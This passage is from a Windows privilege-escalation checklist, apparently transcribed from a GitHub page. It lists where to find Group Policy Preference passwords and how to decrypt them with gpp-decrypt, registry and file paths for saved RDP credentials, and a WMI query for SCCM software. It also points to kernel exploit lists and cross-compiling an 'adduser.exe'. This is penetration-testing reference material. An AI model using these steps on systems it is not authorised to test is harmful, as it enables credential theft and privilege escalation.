 	# After Vista look inside
	C:\ProgramData\Microsoft\Group Policy\history
	# Look for
	Groups.xml
	Services.xml
	Scheduledtasks.xml
	DataSources.xml
	Printers.xml
	Drives.xml
	
	# Decrypt the passwords with
	gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
	```
- [ ] Saved RDP connections
	```powershell
	HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\
	HKCU\Software\Microsoft\Terminal Server Client\Servers\
	```
- [ ] Remote desktop credential manager
	```powershell
	%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
	```
- [ ] SCClient \ SCCM
	```powershell
	# Check if the retrieved sotfwares are vulnerable to DLL Sideloading
	# https://github.com/enjoiz/Privesc
	$result \= Get-WmiObject -Namespace "root\\ccm\\clientSDK" -Class CCM\_Application -Property \* | select Name,SoftwareVersion
	if ($result) { $result }
	else { Write "Not Installed." }
	```
- [ ] Check recycle bin
### Exploit
- [ ] Services running on localhost
- [ ] Kernel version
	```bash
	# List of exploits kernel https://github.com/SecWiki/windows-kernel-exploits
	# to cross compile a program from Kali
	$ i586-mingw32msvc-gcc -o adduser.exe useradd.c
	```
- [ ] Software versions
- [ ] Service versions
### Misconfiguration
- [ ] Services
	- [ ] Check permissions
		```powershell
		# using sc
		sc qc <service_name>